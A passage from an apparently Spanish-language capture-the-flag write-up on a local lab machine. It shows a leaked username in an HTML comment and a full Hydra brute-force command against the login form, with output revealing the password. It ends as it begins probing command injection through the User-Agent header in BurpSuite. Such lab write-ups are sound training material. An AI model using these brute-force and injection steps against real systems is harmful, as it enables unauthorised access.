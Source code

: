 ```html
<!-- d1se0  -->
```

Por lo que podemos deducir que puede ser el nombre de usuario del login, por lo que vamos a probar fuerza bruta al login con dicho usuario.

## Hydra

```shell
hydra -l d1se0 -P <WORDLIST> <IP> http-post-form "/index.php:username=^USER^&password=^PASS^&Login=Iniciar+Sesión:¡Ups\!+Las+credenciales+no+son+correctas.+Intenta+nuevamente."
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-22 11:18:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.3:80/index.php:username=^USER^&password=^PASS^&Login=Iniciar+Sesión:¡Ups!+Las+credenciales+no+son+correctas.+Intenta+nuevamente.
[80][http-post-form] host: 172.17.0.3   login: d1se0   password: amigos
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-22 11:18:46
```

Por lo que vemos sacamos las credenciales, si iniciamos sesion en la pagina, nos llevara a una especie de pagina llamada `gestionAdminPanel.php` en el que parece ser un sistema de gestion del servidor.

## Escalate user flow

### BurpSuite

Donde pone se esta procesando la solicitud, podemos deducir que que tiene que ver algo con las solicitudes que se realiza a dicha pagina.

Vamos abrir `BurpSuite` configurarlo para que escuche en el mismo puerto donde esta la pagina, echo esto, capturaremos la peticion recargando la pagina, le daremos a `Ctrl+R` para pasarlo al `Repeater` y trastear con la peticion.

Si cambiamos algunas cosas del `Head` veremos que hay una seccion de la misma en concreto en la que se puede injectar comandos, que es en el `User-Agent`.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>
